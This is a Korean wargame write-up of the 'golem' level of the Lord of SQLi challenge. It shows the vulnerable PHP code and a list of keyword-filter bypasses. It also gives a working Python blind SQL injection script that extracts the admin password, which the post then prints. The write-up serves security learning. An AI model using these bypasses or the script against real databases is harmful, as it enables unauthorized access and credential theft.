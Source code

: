 ```yaml
---
layout: post
title: ! "[LOS] golem"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - golem
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![](/assets/posts/los/golem.png)

`query : select id from prob_golem where id='guest' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

golem 문제는 or, and, substr, = 등등 여러가지가 필터링된다.
```
or -> ||

and -> &&(%26%26)

substr -> substring

= -> like
```

위와 같이 우회해주면 된다.

orge 문제를 풀 때 썼던 코드가 왜인지 안먹혀서...다른 분의 코드를 참고해서 다시 작성하였다.

```py
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "https://los.eagle-jump.org/golem_~~~.php"
session = dict(PHPSESSID = "자신의 세션 아이디")

for i in range(0, 20):
        query = url + "?pw=1' || id like 'admin' %26%26 length(pw) like " + str(i) + "%23"
        r = requests.post(query, cookies=session)

        if 'Hello admin' in r.text:
                length = i
                break

print "password length is ",length

for j in range(1, length + 1):
        for i in range(48, 128):
                query = url + "?pw=1' || id like 'admin' %26%26 mid(pw, " + str(j) + ", 1) like '" + chr(i)
                r = requests.post(query, cookies=session)

                if 'Hello admin' in r.text:
                        flag += chr(i)
                        break

print "password is",flag
```

실행 결과는 다음과 같다.
![](/assets/posts/los/golem_password.png)
password의 길이는 8, password는 88e3137f

이 값을 `?pw=88e3137f` 이렇게 넘겨주면 풀린다.

![](/assets/posts/los/golem_clear.png)
 

### https://los.rubiya.kr 버전

![](/assets/posts/los/golem_result.png)

![](/assets/posts/los/golem_py_clear.png)
